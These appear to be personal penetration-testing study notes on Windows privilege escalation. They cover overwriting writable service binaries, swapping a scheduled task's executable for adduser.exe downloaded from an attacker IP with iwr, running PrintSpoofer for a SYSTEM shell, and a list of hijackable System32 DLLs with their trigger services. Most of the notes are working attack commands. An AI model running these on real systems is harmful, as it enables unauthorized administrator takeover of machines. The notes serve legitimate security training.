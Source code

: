 
```
"C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe"

PS C:\Users\damian> icacls "C:\Enterprise Software\Monitoring Solution"
	C:\Enterprise Software\Monitoring Solution CLIENTWK221\damian:(OI)(CI)(RX,W)

copy .\Current.exe "C:\Enterprise Software\Monitoring Solution\Surveillance.exe"
```


# Abusing Other Windows Components

#### Scheduled Tasks

```
schtasks /query /fo LIST /v
```

```
iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```

* Look for any task that is running as the current user, is not in a system directory, and is scheduled to run often

#### Using Exploits

![[Pasted image 20231022152251.png]]
Print Spoofer

```
.\PrintSpoofer64.exe -i -c powershell.exe
```
*To obtain an interactive PowerShell session in the context of NT AUTHORITY\SYSTEM with PrintSpoofer64.exe, we'll enter powershell.exe as argument for -c to specify the command we want to execute and -i to interact with the process in the current command prompt.


### DLL REF

=============================================================== C:\Windows\System32\wpcoreutil.dll (Windows Insider service `wisvc` triggerd by Clicking Start Windows Insider Program) 

=============================================================== C:\Windows\System32\phoneinfo.dll (Windows Problem Reporting service) https://twitter.com/404death/status/1262670619067334656 (without reboot by @jonasLyk) 

=============================================================== #dxgi - Trigger is check for protection update C:\Windows\System32\wbem\dxgi.dll (windows security -> check for protection update) 

=============================================================== #tzres.dll C:\Windows\System32\wbem\tzres.dll (systeminfo, NetworkService) =============================================================== ### Need to reboot to get NT AUTHORITY\SYSTEM (hijack dll) ### C:\Windows\System32\wlbsctrl.dll (IKEEXT service) C:\Windows\System32\wbem\wbemcomn.dll (IP Helper) 
